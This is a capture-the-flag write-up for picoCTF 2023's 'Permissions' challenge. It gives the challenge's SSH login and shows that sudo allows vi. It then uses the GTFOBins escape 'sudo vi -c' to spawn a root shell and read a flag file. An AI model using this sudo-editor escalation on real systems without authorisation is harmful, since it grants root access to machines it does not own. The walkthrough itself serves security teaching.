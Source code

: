 # Permissions

Tags: picoCTF 2023, General Skills, vim

| Author | Point    |
| ------ | -------- |
| GEOFFREY NJOGU | 100 points |

## Description

Can you read files in the root file?  
The system admin has provisioned an account for you on the main server:  
ssh -p 56507 picoplayer@saturn.picoctf.net  
Password: vCR2tuwCRm  
Can you login and read the root file?  

## Solve

Connect via ssh.  
When I checked the commands for which sudo is allowed in sudoers with sudo -l, vi was allowed.

```bash
$ ssh -p 56507 picoplayer@saturn.picoctf.net 

[snip]

picoplayer@challenge:~$ sudo -l
[sudo] password for picoplayer: 
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
```

GTFOBins is very helpful in this case.  
https://gtfobins.github.io/gtfobins/vi/

We can give the argument -c, or we can run :!/bin/bash while running sudo vi.

```bash
picoplayer@challenge:~$ sudo vi -c ':!/bin/sh'

# id
uid=0(root) gid=0(root) groups=0(root)
```

Now that we have root privileges, search for files that only root can see.

```bash
# ls /     
bin   challenge  etc   lib    lib64   media  opt   root  sbin  sys  usr
boot  dev        home  lib32  libx32  mnt    proc  run   srv   tmp  var
# cd /challenge
# ls
metadata.json
# cat metadata.json
{"flag": "picoCTF{uS1ng_v1m_3dit0r_********}", "username": "picoplayer", "password": "vCR2tuwCRm"}
```

## Flag

```
picoCTF{uS1ng_v1m_3dit0r_********}
```